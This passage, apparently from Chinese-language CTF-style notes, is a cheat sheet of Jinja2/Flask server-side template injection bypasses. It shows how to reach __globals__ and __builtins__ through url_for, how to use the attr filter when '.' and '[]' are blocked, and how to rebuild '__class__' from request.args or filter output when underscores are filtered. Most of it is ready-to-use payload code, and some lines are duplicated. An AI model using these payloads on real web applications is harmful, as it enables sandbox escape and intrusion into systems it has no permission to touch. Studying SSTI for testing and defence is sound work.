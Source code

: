 #### `.`访问
```python
url_for.__globals__['__builtins__'] = url_for.__globals__.__builtins__
```

#### attr过滤器(常见于`.`和`[]`都被过滤情况)
```python
''.__class__ = ''|attr('__class__')
```

#### 其他方法
```python
url_for.__globals__.pop('__builtins__')#删除某个键值,返回值是改键值，不过不建议轻易使用，因为可能删除掉重要的东西
url_for.__globals__.get('__builtins__')#得到某个键值，这个好用
url_for.__globals__.setdefault('__builtins__')#和get类似
```

#### 混合使用
```python
{{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
{{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```


### 2.2 过滤下划线`_`
#### request方法
```python
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_
```

#### 过滤器拼接
例如：
```python
{{''["__class__"]}} = {{''[((()|select|string|list)[24]~(()|select|string|list)[24],"class",(()|select|string|list)[24]~(()|select|string|list)[24])|join]}}
```
![alt text](images/image27.png)
